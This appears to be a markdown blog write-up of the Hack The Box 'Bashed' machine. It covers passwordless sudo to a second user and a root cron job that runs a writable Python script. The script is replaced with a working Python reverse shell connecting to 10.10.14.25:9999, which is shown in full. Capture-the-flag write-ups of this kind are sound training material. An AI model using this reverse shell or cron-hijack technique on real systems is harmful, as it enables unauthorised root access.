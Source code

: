 ```yaml
---
layout: post
title:  "HTB Bashed Linux"
description : 
tags: 
---
```


# HTB Bashed

# Recon
# Exploitation
1. We run LinuxEnum and we noticed that we are able to sudo commands without passwd for user
**scriptmanager**
```perl
sudo -u scriptmanager whoami
```
```perl
sudo -u scriptmanager bash
```
# Privilege Escalation
1. As scriptmanager user we locate a script folder that contain 2 insterested files
test.py and test.txt
2. test.txt is owned by root but the text.py is owned by scriptmanager
the text.txt file is update every minute so it appers is a cron job
so we modified the python file to pull to call for a reverse shell
```perl
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.25",9999))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
